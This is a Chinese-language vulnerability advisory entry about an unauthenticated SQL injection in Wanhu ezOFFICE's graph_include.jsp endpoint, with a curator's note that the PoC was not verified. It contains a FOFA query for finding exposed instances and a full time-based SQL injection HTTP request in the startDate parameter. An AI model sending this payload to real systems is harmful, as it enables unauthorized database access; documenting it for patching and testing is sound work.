


# 万户ezOFFICE graph_include.jsp SQL注入

## 条目说明

- 对象与具体问题：万户ezOFFICE；graph_include.jsp SQL注入
- 版本、配置及部署条件：未给版本；SQL Server；样本依赖特定查询结构
- 认证与权限前提：声称未授权
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- startDate注入闭合复杂查询，需补实际查询根因和测试版本
- HTTP未围栏；只有截图结果
- 修复声称厂商已发布但只链接官网而无公告

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

## 漏洞描述

万户 ezOFFICE /defaultroot/platform/report/graphreport/graph_include.jsp接口处存在SQL注入漏洞，未授权的攻击者可利用此漏洞获取数据库权限，深入利用可获取服务器权限。

影响版本

万户ezOFFICE协同管理平台

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 高 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：app="万户ezOFFICE协同管理平台"

POC/EXP：

```http
GET /defaultroot/platform/report/graphreport/graph_include.jsp?id=2&startDate=2022-01-01%2000:00:00.000%27%20as%20datetime)%20group%20by%20t.emp_id,t.empname%20)%20%20s%20group%20by%20empname%20order%20by%20num%20desc%20%20WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Connection: close
```








## 修复方案

1. 关闭互联网暴露面或接口设置访问权限

   厂商已提供漏洞修补方案，请关注厂商主页及时更新： 
   
   http://www.whir.net/


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
